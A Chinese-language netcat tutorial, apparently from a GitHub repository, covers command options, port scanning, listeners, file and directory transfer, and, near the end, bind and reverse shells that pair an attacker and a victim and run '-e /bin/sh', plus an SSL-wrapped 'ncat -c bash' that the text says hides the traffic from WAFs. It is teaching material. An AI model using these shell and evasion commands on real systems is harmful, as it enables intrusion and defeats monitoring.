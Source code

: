 # NETCAT

## netcat基础

**NETCAT（nc）被誉为网络安全界的‘瑞士军刀’,它是一个功能强大的网络调试和探测工具。使用TCP或UDP协议的网络连接去读写数据。**

**功能说明：**端口扫描、端口监听、远程文件传输、远程shell等等;

## Netcat基本参数

`nc [-hlnruz][-g<网关...>][-G<指向器数目>][-i<延迟秒数>][-o<输出文件>][-p<通信端口>][-s<来源位址>][-v...][-w<超时秒数>][主机名称][通信端口...]`

-d：与控制台分离，以后台模式运行。

**-e：程序重定向，后面跟程序名**

-G：原路由跳跃点，最多到8个。后面跟网关

-g：原路由指示器，如4，8，12·…···

-h:显示帮助信息。

-i：延时(扫描时用到的)，后面跟延时的秒数。

**-L：监听入本地栈信息。**

**-l：开一个端口来监听，直到nc程序结束。**

**-n：直接使用IP地址，而不通过域名服务器；**

-o：以十六进行制形式将结果记录到文件，后面跟文件名。

**-p：监听本地的端口，后面跟端口号。注意，如果这个端口没打开，此时会打开此端口并进行监听。**

-r：选取随机的本地及远程端口。

-s：指定本地的源地址，地址跟在s后面。

**-t：应答telnet协商。即试图通过telnet登录对方机器。**

-u：udp模式。

**-v：显示信息 【使用两个v会显示更详细的信息】**

-w：连接超时时间，后面跟秒数。

-z：扫描时使用i/o模式。 

## Netcat 基本操作

### 探测主机端口

`nc -v www.baidu.com 80`：扫描指定主机的单一端口是否开放

扫描指定主机的某个端口段的端口开放信息 `nc  -v  -z  Target_IP   Target_Port_Start  -  Target_Port_End`
扫描指定主机的某个UDP端口段，并且返回端口信息 格式：`nc -v   -z  -u  Target_IP  Target_Port_Start   -   Target_Port_End`
扫描指定主机的端口段信息，并且设置超时时间为3秒　格式：`nc  -vv（-v） -z  -w  time  Target_IP   Target_Port_Start-Targert_Port_End`

### 在本机监听某个端口

`nc -l  -p Local_Port`  只能连接一次，客户端断开后就不再连接 使用“-L”或-k参数可以不停的监听某一个端口，知道Ctrl+C为止

### Netcat 通信

服务器：nc -l -p 端口号

客户端：nc -nv 服务器的ip 端口号

目的：输入对话信息(对话端都能接受对方发来的信息)：实现端对端通信 

**解释： n:接地址，做域名解析 **   

​             **v:显示详细的连接的相关详细信息及输出内容** 

​             **l:需要侦听一个端口，告诉NC要打开侦听一个端口**      

​             **p:指定打开（所在机器）所需要侦听的端口号** 

![我的图片](netcat.assets/图片3.png)  

只能连接一次，客户端断开后就不再连接 

**使用“-L”或-k参数可以不停的监听某一个端口，知道Ctrl+C为止**

### 文件传输（往服务器传文件）

服务器：nc -lp 端口号 > 文件名

客户端：nc -nv 服务器ip地址 端口号 < 文件名 -q 1

**解释： A机（服务器）为接收主机(在侦听端口等待，等待B机（客户端）来连接这个端口，并接收B机的文件)，B机为发送主机，其中‘>’表示输出文件，‘<’表示输入文件，效果为B机的“nc.txt”文件被传送到A机上面且以“kali.txt”的形式存储**   

![我的图片](netcat.assets/图片7.png)

​                                          **(首先先在客户端创建一个文档nc.txt，并且在其中编写内容)**

![我的图片](netcat.assets/图片8.png)

​                    **(在服务器ubuntu上输入相应命令，创建一个在服务器上的文件kali.txt)**

![我的图片](netcat.assets/图片9.png)

​                                               **(点开文件目录，发现已经创建成功)**

![我的图片](netcat.assets/图片10.png)

​                                   **(在客户端kali上输入相应命令，将nc.txt的内容传输给服务器的kali.txt文件)**

![我的图片](netcat.assets/图片11.png)

​                                             **(打开文件，发现已经传输成功)**

**注：往客户端传文件方法类似。**

### 文件夹传输

 **思路：传输目录时，先将文件打包成文件，然后通过文件管道发送至nc端口里面，当发送至另一端时，进行加压还原。**
命令： 也涉及双向，和上述的文件传输类似

向客户端发送文件夹：

服务器：tar -cvf - 目录名/ | nc -lp 端口号 -q 1

客户端：nc -nv 服务器ip地址 端口号 | tar -xvf -

![我的图片](netcat.assets/图片12.png)

![我的图片](netcat.assets/图片13.png)

​                            **(发现输入ls查询目录，目录传输music-ubuntu已经成功)**

### NC反弹shell

简述：获取shell分为两种，一种是正向shell，一种是方向shell。如果客户端连接服务器端，想要获取服务器端的shell，那么称为正向shell，如果是客户端连接服务器，服务器端想要获取客户端的shell，那么称为反向shell。

**正向shell**：

- 攻击机：`nc  Targert_IP  Targert_Port `
- 靶机：`nc  -lvp  Targert_Port  -e  /bin/sh  `

**反向shell：**

- 攻击机：`nc -lvp  Target_Port`
- 靶机：` nc  Targert_IP Targert_Port -e /bin/sh`

## 使用ssl给nc连接加密

nc 发送的数据包是明文传输的，所以数据会被waf之类的检测，套上一层ssl就检测不到了

先生成 ssl-key :

` openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem `

- 服务器端: ncat -c bash --allow     192.168.31.221 -vnl 333 --ssl --ssl-cert cert.pem --ssl-key key.pem
- 客户端: ncat -nv 127.0.0.1 333     --ssl --ssl-cert cert.pem --ssl-key key.pem 



   